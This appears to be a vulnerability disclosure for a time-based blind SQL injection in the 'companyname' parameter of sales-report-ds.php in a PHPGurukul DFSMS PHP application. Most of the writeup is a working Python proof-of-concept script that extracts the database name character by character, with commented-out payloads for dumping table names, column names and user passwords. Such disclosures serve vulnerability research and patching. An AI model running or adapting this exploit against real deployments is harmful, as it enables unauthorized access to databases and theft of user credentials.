 vendor：https://phpgurukul.com/

download link：https://phpgurukul.com/?smd_process_download=1&download_id=10924

Vulnerability trigger parameter: $cname

The process of vulnerability discovery is as follows：

![Image text](https://www.caicaizi.top/usr/uploads/2022/09/2459920243.png)

![Image text](https://www.caicaizi.top/usr/uploads/2022/09/3885801938.png)

You can see in the source code that the '$cname' in the sales-report-ds.php file is likely to be injected. Then you can judge from the following if else statement that this variable can splice malicious code, and you can perform blind injection.

POC:
```python
import requests
import time
 
url = "http://localhost/DFScms/dfsms/sales-report-ds.php"
flag = ''
 
 
def payload(i, j):
    startTime=time.time()
    # 数据库名字
    sql = "companyname=-1'and if(ascii(substr(database(),%d,1))>%d,sleep(3),-1)and'1=1&submit="%(i,j)
    # 表名
    #sql = "id = if(ascii(substr((select group_concat(table_name) from information_schema.columns where table_schema=database()),%d,1))>%d,sleep(5),-1)%%23"%(i,j)
    # 列名
    #sql = "id = if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_schema=database()),%d,1))>%d,sleep(5),-1)%%23"%(i,j)
    # 查询flag
    #sql = "id = if(ascii(substr((select password from users),%d,1))>%d,sleep(5),-1)%%23"%(i,j)
 
    headers = {
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie": "PHPSESSID=iv4ujtg89cbg68hdmaqb4bbkl7"
    }
 
    r = requests.post(url=url, headers=headers, data=sql, timeout=15, verify=False)
    # print (r.url)
    if time.time()-startTime>2:
        res = 1
    else:
        res = 0
    return res
 
 
def exp():
    global flag
    for i in range(1, 200):
        low = 31
        high = 127
        while low <= high:
            mid = (low + high) // 2
            res = payload(i, mid)
            if res:
                low = mid + 1
            else:
                high = mid - 1
        f = int((low + high + 1)) // 2
        if (f == 127 or f == 31):
            break
        # print (f)
        flag += chr(f)
        print(flag)
 
 
exp()


```
The database name was exploded

![Image text](https://www.caicaizi.top/usr/uploads/2022/09/2826675667.png)

